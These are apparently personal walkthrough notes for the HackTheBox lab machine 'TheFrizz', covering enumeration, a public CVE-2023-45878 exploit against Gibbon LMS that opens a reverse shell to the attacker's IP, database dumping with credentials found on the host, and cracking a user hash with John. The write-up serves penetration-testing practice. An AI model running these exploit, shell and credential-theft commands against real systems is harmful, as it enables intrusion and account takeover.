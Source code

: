 ```
sudo nmap -sC -sV -vv -oN nmap-thefrizz 10.10.11.60
```
![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250527212119.png]]

### Enumerate Web App

Navigate to IP and actually get redirected here 

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250527211840.png]]
- add this to `/etc/hosts` 

Site does appear
![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250527212028.png]]

#### manual enum 

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250527212614.png]]
- Gibbon LMS in use: v25.0.0.00

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250527212738.png]]
- php in use based on hovering over "staff applications"

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250527212814.png]]
- staff login page 
- `admin:admin` didn't work
![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250527212852.png]]

Googled exploits for this CMS, but only seeing kind of not interesting LFI vulnerabilities
#### gobuster

```
gobuster dir -u http://frizzdc.frizz.htb/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -o gobuster 
```

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250527214310.png]]
- nothing

#### ffuf

Save Burp request to file 
![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250527215504.png]]

```
ffuf -request thefrizz.req -request-proto http -w /usr/share/seclists/Fuzzing/special-chars.txt -fs 22064

```
- nothing
### netexec 

```
netexec smb 10.10.11.60 -u '' -p '' --shares
```

this didn't work at all.

### initial access

### CVE

[CVE PoC Ref ](https://github.com/davidzzo23/CVE-2023-45878/blob/main/README.md)

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250527220907.png]]
- got command execution 

#### Reverse shell 
```
python3 CVE-2023-45878.py -t frizzdc.frizz.htb -s -i 10.10.14.10 -p 9001
```
![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250527221155.png]]
Got reverse shell 

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250527221045.png]]

### enumerate for priv esc

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250527221346.png]]

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250527221413.png]]

Found usernames:
f.frizzle

some rando creds nut probably default 

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250527235826.png]]

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250528003810.png]]


![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250528195736.png]]

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250528200258.png]]

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250528210923.png]]

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250528211030.png]]

```
.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "show databases;"
```

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250528213407.png]]

```
.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "USE gibbon; SHOW tables;"
```
![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250528213542.png]]

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250528213727.png]]

```
.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "USE gibbon; SELECT * from gibbonperson;" -E
```

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250528215711.png]]
- got f.frizzle credential
- f.frizzle@frizz.htb

Save hash as this for SHA-256 
```
f.frizzle:$dynamic_82$067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03$/aACFhikmNopqrRTVz2489
```

John 
```
john --format=dynamic='sha256($s.$p)' --wordlist=/usr/share/wordlists/rockyou.txt frizzle.hash
```

All cracked to `Jenni_Luvs_Magic23`
![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250528220650.png]]

f.frizzle@frizz.htb

### Initial Access as F.Frizz

ssh f.frizzle@frizz.htb does not work. 

#### Impacket's getTGT 

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250528222752.png]]

Try this after 

####  Impacket's GetUserSPNs

```
impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
```
### ssh with kerberos key

This is supposed to work but I kept getting errors. 
```
ssh -k f.frizzle@frizz.htb
```
### netexec 
![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250530214750.png]]
- cannot psexec as frizzle and no interesting shares :(
- no winrm

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250530215005.png]]

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250530215525.png]]

